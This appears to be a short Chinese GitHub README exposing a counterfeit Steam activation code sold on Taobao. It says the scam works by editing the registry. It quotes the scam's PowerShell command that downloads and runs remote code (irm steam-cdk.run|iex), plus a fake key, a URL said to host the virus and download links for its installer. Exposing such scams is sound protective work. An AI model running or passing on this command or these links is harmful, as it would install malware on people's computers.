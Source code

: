 某宝买了一个伪造的steam游戏激活码
曝光伪造的steam游戏激活码，实现原理是修改注册表，让steam认为游戏已经激活。


双人成行
激活指令：irm steam-cdk.run|iex
KEY激活码：JKK82-XZWF9-VQFQQ-DA283-E6255

备份病毒程序
病毒网址
http://www.siyecao.top:8066/uploads/
安装用到蓝奏包
https://lanzoui.com/i3rgh2jkttgb
https://lanzoui.com/iFatc2jkttej
https://lanzoui.com/iwJG82jktsxc


downloads/677433273534c.pak.bak.pak
病毒执行脚本，代码逐行中文注释

曝光伪造的steam游戏激活码，实现原理是修改注册表，让steam认为游戏已经激活。